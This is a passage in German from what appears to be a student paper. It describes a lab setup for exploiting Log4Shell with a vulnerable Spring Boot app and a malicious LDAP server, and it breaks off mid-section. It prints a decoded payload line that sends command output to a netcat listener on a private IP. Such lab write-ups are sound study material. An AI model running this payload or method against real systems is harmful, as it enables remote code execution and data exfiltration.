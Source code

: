 
\subsubsection{Versuchsaufbau und Exploit}
Da die Log4j Bibliothek bereits gepatcht ist und auch sämtliche Java Versionen bereits gepatcht wurden,
wurde im Versuchsaufbau ein Git Repository verwendet.\footcite{log4jvulnerableapp} Es beinhaltet eine Java Spring Boot Web Applikation, die mit
einer Java Version läuft, die nach wie vor anfällig für Log4Shell Angriffe ist.\\
Desweiteren benötigt man einen \gls{ldap}-Server, den man selbst kontrolliert, um einen \gls{jndi}-Lookup zu provozieren. Hierfür verwendet wurde ein weiteres
Git Repository in dem ein bereits voll konfigurierter Server zur Verfügung gestellt wird. Das Repository wurde jedoch aus GitHub entfernt. Das Kompilat des schädlichen
\gls{ldap}-Servers kann nichtsdestotrotz in einem Archiv gefunden werden.\footcite{maliciousLdap}\\
Der letzte Schritt zum erfolgreichen Ausführen des Exploits ist es, eine \gls{http}-Anfrage an das Zielsystem zu senden. In der Anfrage muss nun nur noch die \gls{ip}-Addrese mit Port angegeben werden
unter denen der \gls{ldap}-Server erreichbar ist.

\vspace{0.3cm}

Bei der Durchführung des Exploits wurde die Base64 Funktionalität des bereits laufenden \gls{ldap}-Servers verwendet. Daher liegt das auszuführende Skript als base64-encoded String vor. Die \gls{bash} Befehle,
die hier der Reihe nach ausgeführt werden sind übersetzt: \textit{bin/bash | whoami | nc 192.168.186.216 9999}\\
Die tatsächliche Funktionalität des Skripts konnte jedoch hierbei nicht Revers Engineert werden. Ein eigener Ansatz einer solchen Base64 Funktionalität wäre der Folgende:\\



